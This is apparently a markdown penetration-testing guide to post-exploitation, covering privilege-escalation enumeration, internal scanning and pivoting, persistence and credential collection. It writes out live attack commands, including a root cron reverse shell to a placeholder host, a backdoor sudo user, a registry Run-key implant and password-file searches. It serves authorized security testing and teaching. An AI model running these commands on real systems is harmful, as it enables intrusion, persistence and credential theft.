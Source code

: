 ## 🔹 Phase 5 – Post-Exploitation

Post-exploitation begins **after** you’ve successfully exploited a vulnerability and gained access to a system. This is where the true value of a penetration test often emerges: what can you do once inside? Can you move laterally? Can you escalate privileges? Can you access sensitive data?

> 🧠 Your goal is not chaos. It’s controlled impact: understand the business risk, map internal systems, and prove access — all while remaining stealthy and safe.

---

## 🧭 Goals of Post-Exploitation

* Maintain access (persistence)
* Escalate privileges (local or domain admin)
* Enumerate the internal network
* Access or exfiltrate sensitive data
* Identify lateral movement opportunities

---

## 🔑 Privilege Escalation

### 🔸 Linux – Automated Enumeration

```bash
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh
```

Looks for misconfigurations, SUID binaries, credentials, cron jobs, kernel exploits.

### 🔸 Windows – Automated Enumeration

```powershell
Invoke-WebRequest -Uri https://github.com/carlospolop/PEASS-ng/releases/latest/download/winPEAS.bat -OutFile winpeas.bat
winpeas.bat
```

Finds weak services, registry issues, tokens, AlwaysInstallElevated, unquoted paths.

### 🔸 Manual checks (Linux)

```bash
id && whoami
sudo -l
ps aux
ls -la /root/
cat /etc/passwd
```

### 🔸 Manual checks (Windows)

```cmd
whoami /priv
net user
net localgroup administrators
icacls C:\ /T
```

---

## 📡 Internal Reconnaissance

### 🔸 Network Scanning

```bash
ip a   # or ifconfig
ip route
nmap -sP 10.0.0.0/24
nmap -sT -p- 10.0.0.X
```

* Map internal subnets, find additional services

### 🔸 Pivoting (via SOCKS proxy)

```bash
ssh -D 1080 user@target -N
proxychains nmap -sT -Pn 10.0.0.1
```

* Use with `proxychains`, `socks_proxy`, or Burp to explore internal assets

---

## 🔁 Persistence (if allowed)

### 🔸 Add user (Linux)

```bash
useradd -m pentester
passwd pentester
usermod -aG sudo pentester
```

### 🔸 Scheduled reverse shell (Linux)

```bash
echo '* * * * * bash -i >& /dev/tcp/YOURIP/4444 0>&1' >> /var/spool/cron/root
```

### 🔸 Windows – Registry Run Key

```powershell
reg add "HKCU\Software\Microsoft\Windows\CurrentVersion\Run" /v updater /t REG_SZ /d "C:\rev.exe"
```

> ⚠️ Only apply persistence techniques if explicitly authorized.

---

## 🗃️ Data Collection

* Search for passwords:

```bash
grep -i pass /etc/* 2>/dev/null
find / -name *.kdbx 2>/dev/null
```

* Windows Credential Manager:

```powershell
cmdkey /list
```

* Export browser creds, SSH keys, tokens (if allowed)

---

## 📌 Pro Tips

* Use `script` or terminal logging to record post-ex steps
* Clean up: remove created users, logs, shells (if required)
* Capture screenshots or session transcripts for the report
* Don’t touch sensitive client data unless explicitly instructed
